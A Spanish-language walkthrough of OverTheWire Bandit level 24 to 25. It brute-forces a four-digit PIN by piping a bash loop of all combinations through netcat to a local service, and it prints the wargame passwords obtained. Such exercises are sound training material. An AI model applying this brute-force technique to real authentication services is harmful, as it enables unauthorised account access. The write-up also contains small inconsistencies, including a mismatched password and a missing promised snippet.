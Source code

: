 # Level 24 al 25

## Objetivo.

Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le proporciona la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN, excepto pasando por todas las 10000 combinaciones, lo que se conoce como fuerza bruta.
No necesita crear nuevas conexiones cada vez

## Datos de acceso al nivel.

bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solución.

bandit24@bandit:~$ nc -v localhost 30002
Connection to localhost (127.0.0.1) 30002 port [tcp/*] succeeded!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Timeout. Exiting.

bandit24@bandit:~$ for i in {0000..0003}; do  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
bandit24@bandit:~$  for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.

## Notas opcionales.

 Hay un servicio ejecutándose en el puerto 30002 y que usa un PIN de 4 dígitos para la autenticación. Si somos capaces de autenticarnos y enviar al servicio la contraseña de bandit24, se nos dará la contraseña de bandit25.

Como no conocemos el PIN, la única forma de encontrar el PIN correcto es por fuerza bruta. La fuerza bruta no es más que probar todas las combinaciones posibles para un campo hasta encontrar la combinación correcta.

Entonces se conecta al daemon usando Netcat.

Cuando sabemos el formato en el que se deben enviar los datos al servicio, escribamos un método de fuerza bruta simple usando bucles que probaron todos los números que se encuentran entre 0000 y 9999, ambos inclusive (Todos los números de 4 dígitos que se encuentran entre este rango). Veamos un fragmento de código para "bucle for".

## Referencias.

https://overthewire.org/wargames/bandit/bandit25.html
https://david-varghese.medium.com/overthewire-bandit-level-24-level-25-517fb11f93a3